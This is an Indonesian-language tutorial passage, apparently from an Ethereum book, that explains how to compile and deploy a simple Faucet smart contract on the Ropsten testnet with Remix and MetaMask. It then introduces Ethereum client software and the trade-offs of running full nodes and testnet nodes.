*Compiler* Solidity tersedia sebagai *executable* mandiri, sebagai bagian dari berbagai kerangka kerja, dan dibundel dalam Lingkungan Pengembangan Terpadu (IDE). Agar tetap sederhana, kita akan menggunakan salah satu IDE yang lebih populer, bernama **Remix**.

Gunakan browser Chrome Anda (dengan dompet MetaMask yang telah Anda instal sebelumnya) untuk menavigasi ke Remix IDE di [https://remix.ethereum.org](https://remix.ethereum.org).

Saat Anda pertama kali memuat Remix, ia akan dimulai dengan contoh kontrak bernama `ballot.sol`. Kita tidak memerlukannya, jadi tutup dengan mengklik `x` di sudut tab, seperti yang terlihat pada Gambar 2-10.

<p align="center">
  
</p>

[Gambar 2-10: Menutup file default di Remix IDE]

Sekarang, tambahkan tab baru dengan mengklik tanda tambah melingkar di bilah alat kiri atas, seperti yang terlihat pada Gambar 2-11. Beri nama file baru `Faucet.sol`.

<p align="center">
  
</p>

[Gambar 2-11: Menambahkan file baru di Remix IDE]

Setelah Anda membuka tab baru, salin dan tempel kode dari contoh `Faucet.sol` kita, seperti yang terlihat pada Gambar 2-12.

<p align="center">
  
</p>

[Gambar 2-12: Menempelkan kode Faucet.sol ke Remix IDE]

Setelah Anda memuat kontrak `Faucet.sol` ke dalam Remix IDE, IDE akan secara otomatis mengkompilasi kode tersebut. Jika semua berjalan lancar, Anda akan melihat kotak hijau dengan tulisan "Faucet" di dalamnya muncul di sebelah kanan, di bawah tab **Compile**, yang mengonfirmasi kompilasi berhasil (lihat Gambar 2-13).

<p align="center">
  
</p>

[Gambar 2-13: Konfirmasi kompilasi berhasil di Remix IDE]

> Jika terjadi kesalahan, masalah yang paling mungkin adalah Remix IDE menggunakan versi *compiler* Solidity yang berbeda dari 0.4.19. Dalam hal ini, arahan `pragma` kita akan mencegah `Faucet.sol` untuk dikompilasi. Untuk mengubah versi *compiler*, buka tab **Settings**, atur versi ke 0.4.19, dan coba lagi.

*Compiler* Solidity sekarang telah mengkompilasi `Faucet.sol` kita menjadi *bytecode* EVM. Jika Anda penasaran, *bytecode*-nya terlihat seperti ini:

```
PUSH1 0x60 PUSH1 0x40 MSTORE CALLVALUE ISZERO PUSH2 0xF JUMPI PUSH1 0x0 DUP1
REVERT JUMPDEST PUSH1 0xE5 DUP1 PUSH2 0x1D PUSH1 0x0 CODECOPY PUSH1 0x0 RETURN
STOP PUSH1 0x60 PUSH1 0x40 MSTORE PUSH1 0x4 CALLDATASIZE LT PUSH1 0x3F JUMPI
PUSH1 0x0 CALLDATALOAD PUSH29
0x100000000000000000000000000000000000000000000000000000000
SWAP1 DIV PUSH4 0xFFFFFFFF AND DUP1 PUSH4 0x2E1A7D4D EQ PUSH1 0x41 JUMPI
JUMPDEST STOP JUMPDEST CALLVALUE ISZERO PUSH1 0x4B JUMPI PUSH1 0x0 DUP1 REVERT
JUMPDEST PUSH1 0x5F PUSH1 0x4 DUP1 DUP1 CALLDATALOAD SWAP1 PUSH1 0x20 ADD SWAP1
SWAP2 SWAP1 POP POP PUSH1 0x61 JUMP JUMPDEST STOP JUMPDEST PUSH8
0x16345785D8A0000 DUP2 GT ISZERO ISZERO ISZERO PUSH1 0x77 JUMPI PUSH1 0x0 DUP1
REVERT JUMPDEST CALLER PUSH20 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF AND
PUSH2 0x8FC DUP3 SWAP1 DUP2 ISZERO MUL SWAP1 PUSH1 0x40 MLOAD PUSH1 0x0 PUSH1
0x40 MLOAD DUP1 DUP4 SUB DUP2 DUP6 DUP9 DUP9 CALL SWAP4 POP POP POP POP ISZERO
ISZERO PUSH1 0xB6 JUMPI PUSH1 0x0 DUP1 REVERT JUMPDEST POP JUMP STOP LOG1 PUSH6
0x627A7A723058 KECCAK256 PUSH9 0x13D1EA839A4438EF75 GASLIMIT CALLVALUE LOG4 0x5f
PUSH24 0x7541F409787592C988A079407FB28B4AD000290000000000
```

Senang kan Anda menggunakan bahasa tingkat tinggi seperti Solidity alih-alih memprogram langsung dalam *bytecode* EVM? Saya juga\!

### **Membuat Kontrak di Blockchain**

Jadi, kita punya sebuah kontrak. Kita sudah mengkompilasinya menjadi *bytecode*. Sekarang, kita perlu "mendaftarkan" kontrak tersebut di *blockchain* Ethereum. Kita akan menggunakan *testnet* Ropsten untuk menguji kontrak kita, jadi itulah *blockchain* tempat kita ingin mengirimkannya.

Mendaftarkan kontrak di *blockchain* melibatkan pembuatan transaksi khusus yang tujuannya adalah alamat `0x0000000000000000000000000000000000000000`, yang juga dikenal sebagai **alamat nol**. Alamat nol adalah alamat khusus yang memberitahu *blockchain* Ethereum bahwa Anda ingin mendaftarkan sebuah kontrak. Untungnya, Remix IDE akan menangani semua itu untuk Anda dan mengirimkan transaksi ke MetaMask.

Pertama, beralih ke tab **Run** dan pilih **Injected Web3** di kotak pilihan *drop-down* **Environment**. Ini menghubungkan Remix IDE ke dompet MetaMask, dan melalui MetaMask ke jaringan uji Ropsten. Setelah Anda melakukannya, Anda dapat melihat **Ropsten** di bawah Environment. Juga, di kotak pilihan **Account** akan ditampilkan alamat dompet Anda (lihat Gambar 2-14).

<p align="center">
  
</p>

[Gambar 2-14: Mengkonfigurasi lingkungan 'Run' di Remix untuk men-deploy kontrak]

Tepat di bawah pengaturan Run yang baru saja Anda konfirmasi adalah kontrak `Faucet`, siap untuk dibuat. Klik tombol **Deploy** yang ditunjukkan pada Gambar 2-14.

Remix akan membuat transaksi "pembuatan" khusus dan MetaMask akan meminta Anda untuk menyetujuinya, seperti yang ditunjukkan pada Gambar 2-15. Anda akan melihat transaksi pembuatan kontrak tidak berisi ether, tetapi memiliki 258 byte data (kontrak yang dikompilasi) dan akan mengonsumsi 10 gwei gas. Klik **Submit** untuk menyetujuinya

<p align="center">
  
</p>

[Gambar 2-15: Jendela konfirmasi MetaMask untuk transaksi pembuatan kontrak]

Sekarang Anda harus menunggu. Butuh waktu sekitar 15 hingga 30 detik agar kontrak ditambang di Ropsten. Remix mungkin tidak akan terlihat melakukan banyak hal, tetapi bersabarlah.

Setelah kontrak dibuat, ia akan muncul di bagian bawah tab **Run** (lihat Gambar 2-16).

<p align="center">
  
</p>

[Gambar 2-16: Kontrak yang telah di-*deploy* ditampilkan di tab Run Remix]

Perhatikan bahwa kontrak `Faucet` sekarang memiliki alamatnya sendiri: Remix menampilkannya sebagai "**Faucet at 0x72e…c7829**" (meskipun alamat Anda, yang berupa huruf dan angka acak, akan berbeda). Simbol papan klip (*clipboard*) kecil di sebelah kanan memungkinkan Anda untuk menyalin alamat kontrak ke papan klip Anda. Kita akan menggunakannya di bagian selanjutnya.

### **Berinteraksi dengan Kontrak**

Mari kita rekap apa yang telah kita pelajari sejauh ini: Kontrak Ethereum adalah program yang mengendalikan uang, yang berjalan di dalam mesin virtual yang disebut EVM. Kontrak ini dibuat oleh transaksi khusus yang mengirimkan *bytecode* mereka untuk dicatat di *blockchain*. Setelah dibuat di *blockchain*, mereka memiliki alamat Ethereum, sama seperti dompet. Setiap kali seseorang mengirim transaksi ke alamat kontrak, hal itu akan menyebabkan kontrak berjalan di EVM, dengan transaksi tersebut sebagai inputnya. Transaksi yang dikirim ke alamat kontrak dapat berisi ether atau data, atau keduanya. Jika mengandung ether, ether tersebut akan "disetorkan" ke saldo kontrak. Jika mengandung data, data tersebut dapat menentukan fungsi bernama di dalam kontrak dan memanggilnya, serta meneruskan argumen ke fungsi tersebut.

#### **Melihat Alamat Kontrak di Penjelajah Blok**

Sekarang kita memiliki kontrak yang tercatat di *blockchain*, dan kita dapat melihat ia memiliki alamat Ethereum. Mari kita periksa di penjelajah blok `ropsten.etherscan.io` dan lihat seperti apa bentuk sebuah kontrak. Di Remix IDE, salin alamat kontrak dengan mengklik ikon papan klip di sebelah namanya (lihat Gambar 2-17).

<p align="center">
  
</p>

[Gambar 2-17: Menyalin alamat kontrak Faucet dari Remix IDE]

Biarkan Remix tetap terbuka; kita akan kembali lagi nanti. Sekarang, arahkan browser Anda ke `ropsten.etherscan.io` dan tempelkan alamat tersebut ke dalam kotak pencarian. Anda akan melihat riwayat alamat Ethereum kontrak tersebut, seperti yang ditunjukkan pada Gambar 2-18.\

<p align="center">
  
</p>

[Gambar 2-18: Riwayat alamat kontrak Faucet di Etherscan]

### **Mendanai Kontrak**

Untuk saat ini, kontrak tersebut hanya memiliki satu transaksi dalam riwayatnya: transaksi pembuatan kontrak. Seperti yang Anda lihat, kontrak tersebut juga tidak memiliki ether (saldo nol). Itu karena kita tidak mengirim ether apa pun ke kontrak dalam transaksi pembuatan, meskipun kita bisa saja melakukannya.

*Faucet* kita butuh dana\! Proyek pertama kita adalah menggunakan MetaMask untuk mengirim ether ke kontrak. Alamat kontrak seharusnya masih ada di papan klip Anda (jika tidak, salin lagi dari Remix). Buka MetaMask, dan kirim 1 ether ke alamat tersebut, persis seperti yang Anda lakukan ke alamat Ethereum lainnya (lihat Gambar 2-19).
<p align="center">
  
</p>

[Gambar 2-19: Mengirim ether ke alamat kontrak Faucet menggunakan MetaMask]

Dalam satu menit, jika Anda memuat ulang penjelajah blok Etherscan, ia akan menunjukkan transaksi lain ke alamat kontrak dan saldo yang diperbarui menjadi 1 ether.

Ingat fungsi `public payable` default tanpa nama dalam kode `Faucet.sol` kita? Kodenya terlihat seperti ini:

```solidity
function () public payable {}
```

Ketika Anda mengirim transaksi ke alamat kontrak, tanpa data yang menentukan fungsi mana yang harus dipanggil, transaksi itu memanggil fungsi default ini. Karena kita mendeklarasikannya sebagai `payable`, fungsi ini menerima dan menyetorkan 1 ether ke dalam saldo akun kontrak. Transaksi Anda menyebabkan kontrak berjalan di EVM, memperbarui saldonya. Anda telah mendanai *faucet* Anda\!

### **Menarik Dana dari Kontrak Kita**

Selanjutnya, mari kita tarik sejumlah dana dari *faucet*. Untuk menarik dana, kita harus membuat transaksi yang memanggil fungsi `withdraw` dan meneruskan argumen `withdraw_amount` ke dalamnya. Agar tetap sederhana untuk saat ini, Remix akan membuat transaksi itu untuk kita dan MetaMask akan menampilkannya untuk persetujuan kita.

Kembali ke tab Remix dan lihat kontrak di tab **Run**. Anda akan melihat sebuah kotak merah berlabel `withdraw` dengan kolom masukan berlabel `uint256 withdraw_amount` (lihat Gambar 2-20).

<p align="center">
  
</p>

[Gambar 2-20: Antarmuka fungsi `withdraw` di Remix]

Ini adalah antarmuka Remix ke kontrak. Ini memungkinkan kita untuk membuat transaksi yang memanggil fungsi yang didefinisikan dalam kontrak. Kita akan memasukkan `withdraw_amount` dan mengklik tombol `withdraw` untuk menghasilkan transaksi.

Pertama, mari kita tentukan `withdraw_amount`. Kita ingin mencoba menarik 0,1 ether, yang merupakan jumlah maksimum yang diizinkan oleh kontrak kita. Ingat bahwa semua nilai mata uang di Ethereum secara internal didenominasikan dalam **wei**, dan fungsi `withdraw` kita juga mengharapkan `withdraw_amount` didenominasikan dalam wei. Jumlah yang kita inginkan adalah 0,1 ether, yaitu `100.000.000.000.000.000` wei (angka 1 diikuti oleh 17 angka nol).

> Karena keterbatasan pada JavaScript, angka sebesar `$10^{17}$` tidak dapat diproses oleh Remix. Sebagai gantinya, kita harus membungkusnya dengan tanda kutip ganda, agar Remix dapat menerimanya sebagai *string* dan memanipulasinya sebagai `BigNumber`. Jika kita tidak membungkusnya dengan tanda kutip, Remix IDE akan gagal memprosesnya dan menampilkan "Error encoding arguments: Error: Assertion failed."

Ketik `“100000000000000000”` (dengan tanda kutip) ke dalam kotak `withdraw_amount` dan klik tombol **withdraw** (lihat Gambar 2-21).

<p align="center">
  
</p>

[Gambar 2-21: Memasukkan jumlah penarikan di Remix]

MetaMask akan memunculkan jendela transaksi untuk Anda setujui. Klik **Submit** untuk mengirim panggilan penarikan Anda ke kontrak (lihat Gambar 2-22).

<p align="center">
  
</p>

[Gambar 2-22: Menyetujui transaksi pemanggilan fungsi di MetaMask]

Tunggu sebentar lalu muat ulang penjelajah blok Etherscan untuk melihat transaksi tersebut tercermin dalam riwayat alamat kontrak Faucet (lihat Gambar 2-23).

<p align="center">
  
</p>

[Gambar 2-23: Riwayat alamat kontrak Faucet setelah transaksi penarikan]

Kita sekarang melihat transaksi baru dengan alamat kontrak sebagai tujuan dan nilai 0 ether. Saldo kontrak telah berubah dan sekarang menjadi 0,9 ether karena telah mengirimkan 0,1 ether kepada kita seperti yang diminta. Tetapi kita tidak melihat transaksi "KELUAR" (*OUT*) dalam riwayat alamat kontrak.

Di manakah penarikan keluar itu? Sebuah tab baru telah muncul di halaman riwayat alamat kontrak, bernama **Internal Transactions**. Karena transfer 0,1 ether berasal dari kode kontrak, itu adalah sebuah **transaksi internal** (juga disebut *message* atau pesan). Klik tab tersebut untuk melihatnya (lihat Gambar 2-24).

<p align="center">
  
</p>

"Transaksi internal" ini dikirim oleh kontrak pada baris kode ini (dari fungsi `withdraw` di `Faucet.sol`):

```solidity
msg.sender.transfer(withdraw_amount);
```

Sebagai rekap: Anda mengirim sebuah transaksi dari dompet MetaMask Anda yang berisi instruksi data untuk memanggil fungsi `withdraw` dengan argumen `withdraw_amount` sebesar 0,1 ether. Transaksi itu menyebabkan kontrak berjalan di dalam EVM. Saat EVM menjalankan fungsi `withdraw` dari kontrak `Faucet`, pertama ia memanggil fungsi `require` dan memvalidasi bahwa jumlah yang diminta kurang dari atau sama dengan penarikan maksimum yang diizinkan sebesar 0,1 ether. Kemudian ia memanggil fungsi `transfer` untuk mengirimkan ether kepada Anda. Menjalankan fungsi `transfer` menghasilkan sebuah transaksi internal yang menyetorkan 0,1 ether ke alamat dompet Anda, dari saldo kontrak. Itulah yang ditampilkan di tab **Internal Transactions** di Etherscan.

### **Kesimpulan**

Dalam bab ini, Anda telah menyiapkan dompet menggunakan MetaMask dan mendanainya menggunakan *faucet* di jaringan uji Ropsten. Anda menerima ether ke alamat Ethereum dompet Anda, kemudian Anda mengirim ether ke alamat Ethereum *faucet*.

Selanjutnya, Anda menulis kontrak *faucet* di Solidity. Anda menggunakan Remix IDE untuk mengkompilasi kontrak menjadi *bytecode* EVM, kemudian menggunakan Remix untuk membentuk transaksi dan membuat kontrak `Faucet` di *blockchain* Ropsten. Setelah dibuat, kontrak `Faucet` memiliki alamat Ethereum, dan Anda mengiriminya sejumlah ether. Terakhir, Anda membuat transaksi untuk memanggil fungsi `withdraw` dan berhasil meminta 0,1 ether. Kontrak memeriksa permintaan tersebut dan mengirimi Anda 0,1 ether dengan sebuah transaksi internal.

Mungkin tidak tampak seperti hal besar, tetapi Anda baru saja berhasil berinteraksi dengan perangkat lunak yang mengendalikan uang di atas sebuah komputer dunia yang terdesentralisasi.

Kita akan melakukan lebih banyak lagi pemrograman *smart contract* di Bab 7 dan belajar tentang praktik terbaik serta pertimbangan keamanan di Bab 9.

---

# BAB 3
## Klien Ethereum

Sebuah **klien Ethereum** adalah aplikasi perangkat lunak yang mengimplementasikan spesifikasi Ethereum dan berkomunikasi melalui jaringan *peer-to-peer* dengan klien Ethereum lainnya. Klien Ethereum yang berbeda dapat saling beroperasi jika mereka mematuhi spesifikasi referensi dan protokol komunikasi yang terstandarisasi. Meskipun klien-klien yang berbeda ini diimplementasikan oleh tim yang berbeda dan dalam bahasa pemrograman yang berbeda, mereka semua "berbicara" dengan protokol yang sama dan mengikuti aturan yang sama. Dengan demikian, mereka semua dapat digunakan untuk mengoperasikan dan berinteraksi dengan jaringan Ethereum yang sama.

Ethereum adalah proyek **sumber terbuka** (*open source*), dan kode sumber untuk semua klien utama tersedia di bawah lisensi sumber terbuka (misalnya, LGPL v3.0), gratis untuk diunduh dan digunakan untuk tujuan apa pun. Namun, sumber terbuka lebih dari sekadar gratis untuk digunakan. Ini juga berarti bahwa Ethereum dikembangkan oleh komunitas sukarelawan yang terbuka dan dapat dimodifikasi oleh siapa saja. Lebih banyak mata yang melihat berarti kode yang lebih dapat dipercaya.

Ethereum didefinisikan oleh spesifikasi formal yang disebut **“Yellow Paper”** (lihat “Bacaan Lebih Lanjut” di halaman 7).
Ini berbeda dengan, misalnya, Bitcoin, yang tidak didefinisikan secara formal. Jika "spesifikasi" Bitcoin adalah implementasi referensi Bitcoin Core, spesifikasi Ethereum didokumentasikan dalam sebuah makalah yang menggabungkan spesifikasi bahasa Inggris dan matematis (formal). Spesifikasi formal ini, selain berbagai *Ethereum Improvement Proposals*, mendefinisikan perilaku standar dari sebuah klien Ethereum. Yellow Paper diperbarui secara berkala seiring dengan perubahan besar yang dibuat pada Ethereum.

Sebagai hasil dari spesifikasi formal Ethereum yang jelas, ada sejumlah implementasi perangkat lunak klien Ethereum yang dikembangkan secara independen namun dapat saling beroperasi. Ethereum memiliki keragaman implementasi yang berjalan di jaringan lebih banyak daripada *blockchain* lainnya, yang secara umum dianggap sebagai hal yang baik. Memang, hal ini telah terbukti menjadi cara yang sangat baik untuk bertahan dari serangan di jaringan, karena eksploitasi terhadap strategi implementasi klien tertentu hanya akan merepotkan para pengembang saat mereka menambal eksploitasi tersebut, sementara klien lain menjaga jaringan tetap berjalan hampir tanpa terpengaruh.

### Jaringan Ethereum

Terdapat berbagai jaringan berbasis Ethereum yang sebagian besar sesuai dengan spesifikasi formal yang didefinisikan dalam Ethereum Yellow Paper, tetapi mungkin atau mungkin tidak dapat saling beroperasi satu sama lain.

Di antara jaringan-jaringan berbasis Ethereum ini adalah Ethereum, Ethereum Classic, Ella, Expanse, Ubiq, Musicoin, dan banyak lainnya. Meskipun sebagian besar kompatibel pada tingkat protokol, jaringan-jaringan ini sering kali memiliki fitur atau atribut yang mengharuskan pengelola perangkat lunak klien Ethereum untuk membuat perubahan kecil agar dapat mendukung setiap jaringan. Karena itu, tidak setiap versi perangkat lunak klien Ethereum dapat menjalankan setiap *blockchain* berbasis Ethereum.

Saat ini, ada enam implementasi utama dari protokol Ethereum, yang ditulis dalam enam bahasa yang berbeda:

  * **Parity**, ditulis dalam Rust
  * **Geth**, ditulis dalam Go
  * **cpp-ethereum**, ditulis dalam C++
  * **pyethereum**, ditulis dalam Python
  * **Mantis**, ditulis dalam Scala
  * **Harmony**, ditulis dalam Java

Di bagian ini, kita akan melihat dua klien yang paling umum, Parity dan Geth. Kami akan menunjukkan cara menyiapkan *node* menggunakan setiap klien, dan menjelajahi beberapa opsi baris perintah (*command-line*) dan antarmuka pemrograman aplikasi (API) mereka.

### Haruskah Saya Menjalankan Full Node?

Kesehatan, ketahanan, dan resistensi terhadap sensor dari *blockchain* bergantung pada banyaknya ***full node*** yang dioperasikan secara independen dan tersebar secara geografis. Setiap *full node* dapat membantu *node* baru lainnya mendapatkan data blok untuk memulai operasi mereka, serta menawarkan operator verifikasi yang otoritatif dan independen dari semua transaksi dan kontrak.

Namun, menjalankan *full node* akan menimbulkan biaya dalam sumber daya perangkat keras dan *bandwidth*. *Full node* harus mengunduh 80–100 GB data (per September 2018, tergantung pada konfigurasi klien) dan menyimpannya di *hard drive* lokal. Beban data ini meningkat cukup pesat setiap hari seiring dengan penambahan transaksi dan blok baru. Kita akan membahas topik ini lebih detail di “Kebutuhan Perangkat Keras untuk Full Node” di halaman 45.

*Full node* yang berjalan di jaringan utama (*mainnet*) tidak diperlukan untuk pengembangan Ethereum. Anda dapat melakukan hampir semua yang perlu Anda lakukan dengan *node testnet* (yang menghubungkan Anda ke salah satu *blockchain* uji publik yang lebih kecil), dengan *blockchain* pribadi lokal seperti Ganache, atau dengan klien Ethereum berbasis *cloud* yang ditawarkan oleh penyedia layanan seperti Infura.

Anda juga memiliki opsi untuk menjalankan **klien jarak jauh** (*remote client*), yang tidak menyimpan salinan lokal dari *blockchain* atau memvalidasi blok dan transaksi. Klien ini menawarkan fungsionalitas dompet (*wallet*) dan dapat membuat serta menyiarkan transaksi. Klien jarak jauh dapat digunakan untuk terhubung ke jaringan yang ada, seperti *full node* Anda sendiri, *blockchain* publik, *testnet* publik atau berizin (*proof-of-authority*), atau *blockchain* pribadi lokal. Dalam praktiknya, Anda kemungkinan akan menggunakan klien jarak jauh seperti MetaMask, Emerald Wallet, MyEtherWallet, atau MyCrypto sebagai cara yang mudah untuk beralih di antara semua opsi *node* yang berbeda.

Istilah "klien jarak jauh" dan "dompet" digunakan secara bergantian, meskipun ada beberapa perbedaan. Biasanya, klien jarak jauh menawarkan API (seperti web3.js API) selain fungsionalitas transaksi dari sebuah dompet.

Jangan bingung antara konsep dompet jarak jauh di Ethereum dengan ***light client*** (yang analog dengan klien *Simplified Payment Verification* di Bitcoin). *Light client* memvalidasi *header* blok dan menggunakan bukti Merkle (*Merkle proofs*) untuk memvalidasi penyertaan transaksi di dalam *blockchain* dan menentukan dampaknya, memberikan mereka tingkat keamanan yang serupa dengan *full node*. Sebaliknya, klien jarak jauh Ethereum не memvalidasi *header* blok atau transaksi. Mereka sepenuhnya mempercayai *full client* untuk memberi mereka akses ke *blockchain*, dan karenanya kehilangan jaminan keamanan dan anonimitas yang signifikan. Anda dapat mengurangi masalah ini dengan menggunakan *full client* yang Anda jalankan sendiri.

### Kelebihan dan Kekurangan Full Node

Memilih untuk menjalankan *full node* membantu operasi jaringan yang Anda hubungkan, tetapi juga menimbulkan beberapa biaya ringan hingga sedang bagi Anda. Mari kita lihat beberapa kelebihan dan kekurangannya.

**Kelebihan:**

  * Mendukung ketahanan dan resistensi sensor dari jaringan berbasis Ethereum.
  * Memvalidasi semua transaksi secara otoritatif.
  * Dapat berinteraksi dengan kontrak apa pun di *blockchain* publik tanpa perantara.
  * Dapat secara langsung menerapkan kontrak ke dalam *blockchain* publik tanpa perantara.
  * Dapat menanyakan (hanya-baca) status *blockchain* (akun, kontrak, dll.) secara *offline*.
  * Dapat menanyakan *blockchain* tanpa memberi tahu pihak ketiga informasi yang Anda baca.

**Kekurangan:**

  * Membutuhkan sumber daya perangkat keras dan *bandwidth* yang signifikan dan terus bertambah.
  * Mungkin memerlukan beberapa hari untuk sinkronisasi penuh saat pertama kali dimulai.
  * Harus dipelihara, ditingkatkan, dan dijaga agar tetap *online* untuk tetap tersinkronisasi.

### Kelebihan dan Kekurangan Testnet Publik

Baik Anda memilih untuk menjalankan *full node* atau tidak, Anda mungkin ingin menjalankan *node testnet* publik. Mari kita lihat beberapa kelebihan dan kekurangan menggunakan *testnet* publik.

**Kelebihan:**

  * *Node testnet* perlu menyinkronkan dan menyimpan data yang jauh lebih sedikit—sekitar 10 GB tergantung pada jaringan (per April 2018).
  * *Node testnet* dapat sinkronisasi penuh dalam beberapa jam.
  * Menyebarkan kontrak atau melakukan transaksi memerlukan *test ether*, yang tidak memiliki nilai dan dapat diperoleh secara gratis dari beberapa “*faucet*” (keran).
  * *Testnet* adalah *blockchain* publik dengan banyak pengguna dan kontrak lain, yang berjalan secara “*live*”.

**Kekurangan:**

  * Anda не dapat menggunakan uang “nyata” di *testnet*; ia berjalan dengan *test ether*. Akibatnya, Anda не dapat menguji keamanan terhadap musuh nyata, karena tidak ada yang dipertaruhkan.
